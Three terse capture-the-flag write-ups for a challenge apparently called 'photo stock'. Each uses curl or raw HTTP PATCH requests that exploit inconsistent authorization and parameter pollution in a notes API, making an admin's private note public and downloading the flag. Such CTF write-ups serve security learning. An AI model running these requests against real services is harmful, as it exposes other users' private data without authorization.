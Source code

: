 # Writeup 1
photo stock
found the seed data showing admin user "administrator" with note "mvp_note"
login and see notes and found admin's note ID: b75c4dcf-ef7a-48db-be16-3bdc4017367d with status: "privacy":"private"then create own noteexploit inconsistent authorization logic
```
curl -X PATCH 'https://[target]/api/notes/public?id=b75c4dcf-ef7a-48db-be16-3bdc4017367d' \
  -H 'Authorization: Bearer [token]' \
  -d '["<own_note_id>"]'
```

    access flag
```
curl -H "Authorization: Bearer [token]" \
  https://[target]/api/notes/b75c4dcf-ef7a-48db-be16-3bdc4017367d/image \
  --output flag.jpg
```

# Writeup 2
photo stock (another solution)
Parameter pollution 
71c7dd2c-d4af-4bc5-ade4-f3c94c61a961 - private, 245e2cb8-dd1a-4e87-a647-64e92cb98a6c - public

```
PATCH /api/notes/public?id=71c7dd2c-d4af-4bc5-ade4-f3c94c61a961 HTTP/1.1 
Host: 127.0.0.1:9999 
Content-Length: 79 
Authorization: Bearer *
Accept-Language: en-GB,en;q=0.9 
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99" 
Content-Type: application/json 

["245e2cb8-dd1a-4e87-a647-64e92cb98a6c","245e2cb8-dd1a-4e87-a647-64e92cb98a6c"]
```


# Writeup 3
photo stock 
```
curl -s -X PATCH "https://target/api/notes/public" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  --data "{\"_json\":[],\"id\":\"$ID\"}" -i
```
